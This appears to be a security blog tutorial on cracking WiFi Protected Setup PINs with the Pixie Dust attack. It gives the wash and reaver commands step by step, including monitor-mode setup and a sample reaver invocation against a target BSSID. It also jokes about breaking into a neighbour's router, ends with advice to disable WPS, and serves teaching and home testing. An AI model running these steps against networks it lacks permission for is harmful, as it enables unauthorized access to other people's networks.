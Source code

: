 ```yaml
---
description: >-
  Here, you will learn WiFi hacking techniques for WPS using a wireless
  interface.
cover: >-
  ../../../.gitbook/assets/DALL·E 2024-04-24 22.21.04 - A close-up digital
  illustration showing a laptop on a desk, with a prominent Wi-Fi dongle
  connected to one of its USB ports. The laptop screen display.webp
coverY: -475
---
```


# 🛜 WiFi WPS Hacking

***

## Disclaimer

The information provided on this blog is for educational and research purposes only. The techniques and tools discussed are intended to improve network security and should only be used on networks where explicit permission has been granted. The owner of this blog does not endorse illegal activities and will not be held responsible for misuse of the information contained herein. By using this blog, you agree that you will not use the information for unlawful purposes and that you will comply with all applicable laws and regulations.

***

## Requirements

* WiFi Dongle (capable to set monitor mode)
* Operative System: Linux ([Kali Linux](https://www.kali.org/) Recommended)
* [Reaver](https://www.kali.org/tools/reaver/) tool installed

***

## WPS&#x20;

WiFi Protected Setup or WPS allow devices to connect to a Wi-Fi network using an 8 digit pin, which sometimes is predefined by the manufacturer of the AP. During the connection establishment process, interchange of hashes are made, particularly the messages M1 to M8. Pixie Dust attack focus specifically in the messages M3 and M4, where Diffie-Hellman elements are transferred.&#x20;

Incredibly, a lot of Internet Service Providers here in Panamá are installing Access Points with WPS set by default, leaving them vulnerable and without chance to change this setting because some ISP lock their access to the router admin page to his users. Imagine exposing your home network to everyone. Sounds terrible right?

I tested different WPS attacks in my home network and also in some of my family members networks to see if they are vulnerable, and guess what? they are. In just a couple of seconds, i managed to get the Wi-Fi password using a simple Pixie Dust attack with **reaver** tool.&#x20;

Here i'll show you how to perform WPS attacks to see if your network or you neighbour network is vulnerable so you can login in your neighbour's router admin page and disable WPS for him :wink:. Not all heroes wear capes... Just kidding, don't do that without permission.

***

## Detecting targets with wash

Wash is a utility for identifying WPS enabled access points. It can survey from a live interface or it can scan a list of pcap files. Wash is included in the Reaver package.

First we need to know which wireless interface are we gonna use. To do this, we can use the command `iw dev` that will list all wireless interfaces.

<figure><img src="../../../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

The wireless interface that we are going to use is `wlan0`. Now we have to put this interface in monitor mode with `airmon-ng`.

```bash
# Killing processes that could interfere
$ sudo airmon-ng check kill

# after executing the previous command it is normal to lose internet connection.
# because some of the processes stoped, are processes that handle our wireless 
# interface

# starting monitor mode
$ sudo airmon-ng start wlan0
```

We can also put the interface in monitor using `iw`:

```bash
$ ifconfig wlan0 down
$ iw dev wlan0 set type monitor
$ ifconfig wlan0 up
```

Now we can execute `wash`:

<figure><img src="../../../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

We need to save the BSSID and channel of the network that we are going to attack with reaver.

***

## WPS Pixie Dust Attack with reaver

Now that we have our target, the only thing left to do is to start the attack using the following command.

```bash
# -i : specify wireless interface in monitor mode
# -b : specify the target bssid 
# -c : specify the channel of the target AP
# -K : Pixie Dust Attack mode
$ sudo reaver -i wlan1 -b "C0:C9:E3:59:11:22" -c 2 -K 
```

The previous command, if executed successfully should show the next output:

<figure><img src="../../../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

It is highly recommended to execute reaver in Kali Linux because the Kali operative system has all the compatible libraries used by reaver already installed.&#x20;

For example, the same attack doesn't work in my Ubuntu machine and I used the same wireless network interface ([ALFA Network AWUS036AC](https://www.amazon.com/gp/product/B01B33WU82/ref=ppx\_yo\_dt\_b\_asin\_title\_o03\_s00?ie=UTF8\&psc=1)).

***

## Recommendations for Enhancing Wi-Fi Security

**Disable WPS**

* **Check Your Router Settings:** The first and most crucial step is to access your router’s settings. Look for the Wi-Fi Protected Setup (WPS) option, and ensure it is disabled. This prevents the WPS PIN method, which is vulnerable to attacks, from being a potential entry point for attackers.&#x20;

**Update Your Router Firmware**

* **Regular Updates:** Manufacturers often release firmware updates to fix security vulnerabilities and improve functionality. By keeping your router updated, you can protect against known exploits that attackers might use to gain unauthorized access.

**Use Strong and Unique Passwords**

* **Complexity Matters:** Ensure your Wi-Fi network’s password is strong. Use a combination of upper and lower case letters, numbers, and special characters. Avoid common words and phrases to reduce the risk of brute-force attacks.

**Monitor Network Activity**

* **Stay Informed:** Regularly check the devices connected to your network. Many routers offer the ability to view a list of connected devices. If you notice any unfamiliar devices, it could indicate that your network security has been compromised.

**Educate Yourself and Others**

* **Awareness is Key:** Stay informed about the latest security threats and protection strategies. Share this knowledge with friends and family to ensure they are also taking steps to secure their networks.

**Legal and Ethical Considerations**

* **Always Seek Permission:** Never test security vulnerabilities on networks you do not own or without explicit permission from the owner. Doing so is illegal and unethical. If you want to help others secure their networks, offer your assistance and ensure they understand the process and give consent before you proceed.
